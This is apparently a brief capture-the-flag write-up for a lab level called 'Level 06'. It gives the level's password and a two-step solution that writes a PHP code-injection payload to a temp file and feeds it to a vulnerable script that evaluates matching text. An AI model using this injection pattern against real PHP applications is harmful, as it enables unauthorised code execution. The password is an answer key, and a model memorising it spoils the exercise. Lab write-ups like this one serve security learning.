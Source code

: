# Level 06

## Password
> viuaaale9huek52boumoomioc

## Steps
1. ```echo '[x {${system(getflag)}}]' > /tmp/hack```
2. ```~/level06 /tmp/hack```

## Description
The PHP script will execute anything following this pattern ```(\[x (.*)\])```
